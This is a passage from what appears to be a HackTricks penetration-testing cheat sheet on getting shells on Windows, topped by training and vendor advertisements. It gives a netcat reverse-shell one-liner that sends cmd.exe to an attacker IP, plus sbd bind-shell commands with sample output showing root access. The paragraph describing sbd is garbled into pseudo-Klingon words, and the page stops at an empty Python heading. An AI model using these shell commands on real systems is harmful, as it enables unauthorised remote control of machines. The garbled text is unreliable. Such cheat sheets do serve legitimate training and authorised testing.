# Shells - Windows

<details><summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!HackTricks</strong></a><strong>!</strong></summary></details>

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

Find vulnerabilities that matter most so you can fix them faster. Intruder tracks your attack surface, runs proactive threat scans, finds issues across your whole tech stack, from APIs to web apps and cloud systems. [**Try it for free**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) today.

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

***

## Lolbas

The page [lolbas-project.github.io](https://lolbas-project.github.io/) is for Windows like [https://gtfobins.github.io/](https://gtfobins.github.io/) is for linux.\
Obviously, **there aren't SUID files or sudo privileges in Windows**, but it's useful to know **how** some **binaries** can be (ab)used to perform some kind of unexpected actions like **execute arbitrary code.**

## NC
```bash
nc.exe -e cmd.exe <Attacker_IP> <PORT>
```
## SBD

**[sbd](https://www.kali.org/tools/sbd/) HochmeH je netcat alternative**. vItlhutlh Unix-like systemmey je Win32. vItlhutlh encryption, program execution, customizable source ports, je continuous reconnection, sbd vItlhutlh TCP/IP communication solution. Windows users, sbd.exe version vItlhutlh Kali Linux distribution netcat replacement.
```bash
# Victims machine
sbd -l -p 4444 -e bash -v -n
listening on port 4444


# Atackers
sbd 10.10.10.10 4444
id
uid=0(root) gid=0(root) groups=0(root)
```
## Python

